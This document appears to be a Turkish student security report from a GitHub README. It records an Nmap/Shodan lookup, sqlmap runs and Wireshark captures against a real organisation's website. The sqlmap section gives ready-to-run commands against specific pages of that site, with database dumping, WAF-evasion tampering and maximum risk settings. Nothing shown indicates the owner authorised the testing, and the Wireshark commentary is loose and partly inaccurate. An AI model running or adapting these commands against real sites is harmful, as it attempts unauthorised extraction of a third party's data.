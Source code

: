 # Bilgi Sistemleri ve Güvenliği

Testler Sqlmap, Nikto, Nmap üzerinden yapılmıştır.

# Nmap

https://www.shodan.io/
sitesinde yapılan taramada orta seviyeli olarak CVE-2014-4078 sonucu elde edildi ve ISS 8.5 kullanıldığı tespit edildi.

# Sqlmap

Sqlmapte yapılan testler sonucunda veritabanı olarak PostgreSQL kullanıldığı tespit edildi. Bunun yanı sıra yapılan testler sonucunda belirli çıktılar elde edildi.
WAF ile korunduğu için bazı sql injectionlar denenemedi bunlar txtler içinde gözükmektedir.

## Bu test aşamasında yazılan kodlar:

### 1-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --dump --batch

### 2-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --level 5 --risk 3 --dump --batch

### 3-)python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --tamper=space2comment --random-agent
#### Bu işlemde veritabanının PostgreSQL olduğu tespit edilmiştir!


### 4-) python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --dbms=postgresql --tamper=space2comment --random-agent --time-sec=10 --level=5 --risk=3
#### Bu test yüksek fazda olmuştur ve 11 saate yakın bir süreçte tamamlanmıştır.

<br>

# Testler (Wireshark) üzerinden yapılmıştır.

## 1. Bad TCP
tcp.analysis.flags && !tcp.analysis.window_update && !tcp.analysis.keep_alive && !tcp.analysis.keep_alive_ack <br>
Bad TCP 54 tane taradımız ağ’da bulduk, bunları göremek için github linkin’den ulaşabilirsiniz


## 2. ARP (Address Resulation Protocol)
Tipik bir kullanım, bir IP adresinin (ör. 192.168.0.10) temel Ethernet adresine (ör. 01:02:03:04:05:06) eşlenmesidir. ARP bu adreslerin keşfedilme şekli olduğundan, genellikle bir konuşmanın başında ARP paketlerini görürsünüz.
<br>Aşağıda 9 tane (ARP) paketini mustso’dan yakaladık. ARP bizim için önemli bir bilgidir.


## 3. HTTP (Hypertext Transfer Protocol)
Çok fazla içerik türü(content types) En kiritik buldumuz kısımda Application buldundu kısımdır.
Kötü amaçlı ve yazılım ararken kullandığınız etiket içerik türü ve uygulama türüdür.
Genelikle application ile başlayanları kötü amaçlı olarak kullanabiliriz, onları indirip ondan sonra deneyebiliriz ve eğer o uygulama çalışırsa hack ve kötü amaçlı olarak kullanabilir, o yüzden http protokolü çok önemli bir protokoldür.


## 4. TCP (Transmission Control Protocol)
Varsayılan olarak, Wireshark'ın TCP ayırıcısı her TCP oturumunun durumunu izler ve sorunlar veya olası sorunlar algılandığında ek bilgi sağlar. Bir yakalama dosyası ilk açıldığında analiz her TCP paketi için bir kez yapılır. Paketler, paket listesinde göründükleri sırayla işlenir.

### Bad TCP - Kısmında [Checksum Status: Unverified] olduğundan dolayı bu kısımları mustso’nun düzeltemsi gerekiyor.
### HTTP Kısmında [Checksum Status: Unverified] olduğundan dolayı bu kısımları mustso’nun düzeltemsi gerekiyor.
